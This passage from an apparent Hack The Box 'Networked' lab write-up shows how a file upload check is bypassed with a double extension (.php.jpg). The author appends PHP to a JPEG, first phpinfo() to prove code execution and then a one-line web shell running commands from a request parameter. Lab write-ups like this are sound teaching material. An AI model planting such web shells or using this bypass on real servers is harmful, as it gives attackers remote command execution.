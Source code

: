 Uploading an image is successful and browsing to `http://10.10.10.146/photos.php` we can see that our image is added.

![image.php.jpg](/assets/images/HTB-Networked/1.a%20image.php.jpg.png)

Changing the filename from `logo.php` to `logo.php.jpg` also successfully uploads our file and both show on `http://10.10.10.146/photos.php`. The difference is that browsing to `http://10.10.10.146/uploads/10_10_14_9.jpg` shows the image as we expected but `http://10.10.10.146/uploads/10_10_14_9.php.jpg` shows something unexpected. We see the image data, but not as an image.

```bash
luc@kali:~/HTB/Networked$ cp logo.jpg logo.php.jpg
luc@kali:~/HTB/Networked$ echo '<?php phpinfo(); ?>' >> logo.php.jpg
```

Going to `http://10.10.10.146/uploads/10_10_14_9.php.jpg` will show us the image data followed by the output of `phpinfo()`. This confirms that we've code execution.

```bash
luc@kali:~/HTB/Networked$ cp logo.jpg logo.php.jpg
luc@kali:~/HTB/Networked$ echo '<?php system($_REQUEST["cmd"]); ?>' >> logo.php.jpg
```
